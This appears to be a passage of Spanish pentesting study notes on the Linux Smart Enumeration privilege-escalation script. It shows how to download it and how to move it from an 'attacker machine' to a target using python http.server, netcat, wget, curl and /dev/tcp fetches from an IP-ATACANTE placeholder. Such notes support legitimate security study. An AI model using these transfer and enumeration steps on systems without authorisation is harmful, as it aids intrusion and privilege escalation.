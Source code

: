 ```mermaid
    E --> E2[Movimiento lateral]
```

> [!note] Filosofía de la herramienta
> A diferencia de otras herramientas de enumeración, LSE está diseñado para ser **inteligente** en sus búsquedas, mostrando resultados categorizados por niveles de relevancia y utilizando colores para facilitar la identificación de hallazgos importantes.

---

## 💾 Instalación y Obtención

### Repositorio oficial
LSE está disponible en GitHub: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

### Métodos de obtención

```bash
# Descargar directamente usando wget
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh

# Alternativa con curl
curl -s https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh -o lse.sh

# Dar permisos de ejecución
chmod +x lse.sh
```

### Transferencia a sistemas objetivo

> [!tip] Técnicas de transferencia
> Cuando el sistema objetivo no tiene acceso a Internet:

**Desde máquina atacante:**
```bash
# Servir el archivo con un servidor web simple
python3 -m http.server 8000

# Alternativamente, usar Netcat
nc -nlvp 8000 < lse.sh
```

**En la máquina objetivo:**
```bash
# Descargar usando wget/curl
wget http://IP-ATACANTE:8000/lse.sh

# Alternativa con curl
curl http://IP-ATACANTE:8000/lse.sh -o lse.sh

# Usando Netcat
cat < /dev/tcp/IP-ATACANTE/8000 > lse.sh
```

---